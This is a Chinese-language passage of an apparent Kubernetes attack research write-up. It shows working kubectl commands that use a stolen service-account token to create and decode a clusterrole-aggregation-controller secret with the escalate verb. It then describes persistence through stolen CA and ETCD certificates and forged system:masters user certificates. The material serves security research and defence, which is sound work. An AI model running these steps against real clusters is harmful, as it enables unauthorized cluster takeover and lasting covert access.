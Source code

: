 拥有了 create 和 get secret、描述角色/角色绑定、描述集群角色/集群角色绑定权限的攻击者，可以确定哪些服务帐户具有高权限，并设法拿到这些服务帐户。然后，他们可以创建一个新的 ServiceAccount 令牌 secret，并利用该令牌 secret 来使用和该"服务账户"绑定的那些权限，通过 k8sAPI 身份验证。

攻击者可以用来提升权限的另一种办法是：获取 clusterrole-aggregation-controller"服务账户"的 secret。这个角色具有升级动词，可用于实现集群管理（升级动词允许攻击者绕过“k8s 对提升权限的限制”）。

本次的研究环境没有创建 secret，而是使用了能够创建 secret 权限的"服务账户"，然后获取了创建的"服务账户"secret。

在 kube-system 命名空间里创建 escalation secret

```plain
# 创建具有"升级权限"的 token
kubectl --certificate-authority /var/lib/kubelet/pods/d043faea-ba2a-4302-ba04- 80a38dade827/volumes/k8s.io~projected/kube-api-access-b84hf/ca.crt --token=$(cat /root/create-secrets-token) --namespace=kube-system --server=https://192.168.10.100:6443 create -f create-sa-token.yaml secret/clusterrole-aggregation-controller created

# 获取新创建的 secret
kubectl --certificate-authority /var/lib/kubelet/pods/d043faea-ba2a-4302-ba04- 80a38dade827/volumes/k8s.io~projected/kube-api-access-b84hf/ca.crt --token=$(cat /var/lib/kubelet/pods/d043faea-ba2a-4302-ba04- 80a38dade827/volumes/k8s.io~projected/kube-api-access-b84hf/token) --namespace=kube-system --server=https://192.168.10.100:6443 get secrets clusterrole-aggregation-controller -o yaml | grep token | grep -v k8s | cut -f 2 -d ':' | tr -d ' ' | base64 -d > /root/clusterrole-aggregation-controller-token

# 执行 auth can-i，发现这个新的 scret 具有升级权限
kubectl --certificate-authority /var/lib/kubelet/pods/d043faea-ba2a-4302-ba04- 80a38dade827/volumes/k8s.io~projected/kube-api-access-b84hf/ca.crt --token=$(cat /root/clusterrole-aggregation-controller-token) --namespace=kube-system --server=https://192.168.10.100:6443 auth can-i --list

Resources                        Verbs
clusterroles.rbac.authorization.k8s.io      [escalate get list patch update watch]
```

## 后渗透阶段

一旦攻击者实现了集群管理，就可以开始“后渗透阶段”：做好权限维持，避免初始攻击方法被发现、被清理。

k8s 中有许多路径实现权限维持：Linux 环境下攻击者可以利用这些权限维持方法。

### System:Masters Group

攻击者 (cluster admin) 可以在任何一个 control plane 节点上建立据点，并窃取 `/etc/k8s/pki`里的 CA 证书。

攻击者还可以窃取 k8s 和 ETCD 证书。这样，攻击者可以通过“k8s API”和 (承载 k8s 环境所有信息的)“ETCD 数据库”的身份验证，拿到 ETCD 的内容，并进一步渗透。

k8s 证书可以在`system:master`组中创建一个新的 user。

`system:masters`组能够不受限制地访问 k8s API，无需任何角色或角色绑定。

每个角色和角色绑定都可以从 k8s 环境中删除，但是，能访问`system:masters`组的攻击者仍然对整个集群具有完整的管理权限。

在 system:masters 组中创建帐户说起来容易做起来难，因为它在 k8s 内被一个名为 CertificateSubjectRestriction 的准入控制器阻止，虽然这个准入控制器不会批准 system:masters 组的证书签名请求，但攻击者仍然可以使用其他工具（如 openssl）创建证书。如果攻击者拥有来自 Control Plane node 的有效 CA 证书，他们可以在另一台计算机上创建他们的用户证书，并使用它们实现完全控制。
